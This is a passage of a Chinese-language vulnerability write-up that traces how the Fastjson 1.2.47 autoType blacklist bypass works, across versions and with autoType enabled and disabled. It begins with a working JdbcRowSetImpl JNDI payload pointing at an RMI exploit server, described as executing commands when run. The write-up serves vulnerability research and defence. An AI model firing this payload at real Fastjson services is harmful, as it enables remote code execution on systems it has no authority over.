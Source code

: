 直接放出payload，运行即可绕过黑名单执行命令

```java
"{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:1099/Exploit\",\"autoCommit\":true}}}";
```

## 详情分析

先贴出这个payload的调用栈，跟着分析一下具体流程

![Fastjson%20Bypass/Untitled%207.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/7.png)

### 1.2.47，开启`**setAutoTypeSupport**`分析

由于PoC开头不为@type等预置类型，因此按照Map类型进行解析，具体Map类型解析可以看我的 [Fastjson反序列化基础](https://drops.blbana.cc/2020/03/29/Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%9F%BA%E7%A1%80/)，跟进parseObject分析其中关键步骤

![Fastjson%20Bypass/Untitled%208.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/8.png)

因为typeName为`java.lang.Class`不在黑名单，成功绕过检测，在`this.deserializers.findClass`中找到其Class类并返回

![Fastjson%20Bypass/Untitled%209.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/9.png)

紧接着进入到`MiscCodec`的`deserialze`方法中，在parser.parse后获取到value值`com.sun.rowset.JdbcRowSetImpl`，并在判断好clazz类型后，开始加载`strVal`的Class对象

![Fastjson%20Bypass/Untitled%2010.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/10.png)

![Fastjson%20Bypass/Untitled%2011.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/11.png)

在TypeUtils.loadClass中，成功加载目标类Class并放入缓存数组`mappings`中 ，完成第一组键值对的反序列化

![Fastjson%20Bypass/Untitled%2012.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/12.png)

紧接着进入第二组，键值对的反序列化，也是触发漏洞的关键步骤，可以看到在`autoTypeSupport`为true时，在黑名单检测过程中需要同时满足两个条件，由于`TypeUtils.getClassFromMapping(typeName)`从mapping中获取到了`com.sun.rowset.JdbcRowSetImpl`类的Class，导致条件不成立，绕过黑名单抛出异常的代码

![Fastjson%20Bypass/Untitled%2013.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/13.png)

之后进入正常的反序列化流程，详情见 Fastjson JdbcRowSetImpl利用链分析

### 1.2.47，关闭`**setAutoTypeSupport**`分析

关闭后就更直接了，直接因为`autoTypeSupport`为false不会进入到上面的黑名单检测过程，直接从mapping缓存中获取到目标类Class，进入之后的反序列化流程

![Fastjson%20Bypass/Untitled%2014.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/14.png)

### 1.2.32，开启`**setAutoTypeSupport**`分析

在此版本，开启`autoTypeSupport`的情况下，直接运行PoC会抛出`is not support`的异常，分析发现在第一部分解析过程中，与之前没有太大区别，`java.lang.Class`绕过黑名单被解析为Class类型，并将目标类Class放入到mapping中，但由于没有了之前要同时满足两个条件的限制，导致被黑名单检测，抛出异常
